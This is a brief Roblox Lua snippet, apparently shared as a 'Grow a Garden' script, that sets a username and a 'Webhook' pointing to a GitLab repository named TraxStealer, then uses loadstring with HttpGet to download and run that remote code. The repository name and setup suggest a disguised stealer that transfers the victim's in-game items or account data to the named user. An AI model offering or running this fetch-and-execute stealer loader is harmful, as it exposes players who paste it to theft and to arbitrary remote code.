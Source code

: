 Username = selvesdoll3
Webhook = https://gitlab.com/traxmain1/TraxStealer/-/raw/main/grow-a-garden

loadstring(game:HttpGet("https://gitlab.com/traxmain1/TraxStealer/-/raw/main/grow-a-garden"))()
